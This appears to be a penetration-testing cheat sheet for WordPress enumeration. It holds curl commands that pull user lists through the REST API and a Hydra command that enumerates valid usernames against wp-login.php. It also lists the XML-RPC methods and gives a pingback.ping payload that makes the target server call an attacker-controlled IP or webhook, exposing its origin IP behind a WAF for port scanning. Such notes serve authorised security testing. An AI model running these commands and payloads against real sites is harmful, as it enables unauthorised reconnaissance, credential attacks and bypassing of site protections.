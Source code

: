 # Enumeration

## Username Enumeration

### Manual

Manual enumeration via JSON.

```
$ curl -s http[s]://<target_IP>/?rest_route=/wp/v2/users | jq

$ curl -shttp[s]://<target_IP>/wp-json/wp/v2/users | jq
```

### Hydra

Using a password cracker to enumerate usernames by returning an error as a response that the account is valid.

```
$ hydra -V -L users.lst -p password <IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

## Enumerate Methods

```xml
<methodCall>
	<methodName>system.listMethods</methodName>
	<params></params>
</methodCall>
```

Here are the available methods but without the XML tags.

```
system.multicall
system.listMethods
system.getCapabilities
demo.addTwoNumbers
demo.sayHello
pingback.extensions.getPingbacks
pingback.ping
mt.publishPost
mt.getTrackbackPings
mt.supportedTextFilters
mt.supportedMethods
mt.setPostCategories
mt.getPostCategories
mt.getRecentPostTitles
mt.getCategoryList
metaWeblog.getUsersBlogs
metaWeblog.deletePost
metaWeblog.newMediaObject
metaWeblog.getCategories
metaWeblog.getRecentPosts
metaWeblog.getPost
metaWeblog.editPost
metaWeblog.newPost
blogger.deletePost
blogger.editPost
blogger.newPost
blogger.getRecentPosts
blogger.getPost
blogger.getUserInfo
blogger.getUsersBlogs
wp.restoreRevision
wp.getRevisions
wp.getPostTypes
wp.getPostType
wp.getPostFormats
wp.getMediaLibrary
wp.getMediaItem
wp.getCommentStatusList
wp.newComment
wp.editComment
wp.deleteComment
wp.getComments
wp.getComment
wp.setOptions
wp.getOptions
wp.getPageTemplates
wp.getPageStatusList
wp.getPostStatusList
wp.getCommentCount
wp.deleteFile
wp.uploadFile
wp.suggestCategories
wp.deleteCategory
wp.newCategory
wp.getTags
wp.getCategories
wp.getAuthors
wp.getPageList
wp.editPage
wp.deletePage
wp.newPage
wp.getPages
wp.getPage
wp.editProfile
wp.getProfile
wp.getUsers
wp.getUser
wp.getTaxonomies
wp.getTaxonomy
wp.getTerms
wp.getTerm
wp.deleteTerm
wp.editTerm
wp.newTerm
wp.getPosts
wp.getPost
wp.deletePost
wp.editPost
wp.newPost
wp.getUsersBlogs

```

## Cross Site Port Attack (XSPA)

This can be used for to check the origin IP address of the server to bypass WAF (i.e. Cloudflare) to perform network enumeration such as port scans. This can be achieved by using a webhook like [PostBin](https://www.postb.in/) or an external attacker IP address to the send the request. Once it returns **HTTP 200** responded. You should to see the results.

```xml
<methodCall>
	<methodName>pingback.ping</methodName>
	<params>
		<param>
			<value><string>http[s]://<attacker_IP>/</string></value>
		</param>
		<param>
			<value><string>https://example.com/</string></value>
		</param>
	</params>
</methodCall>
```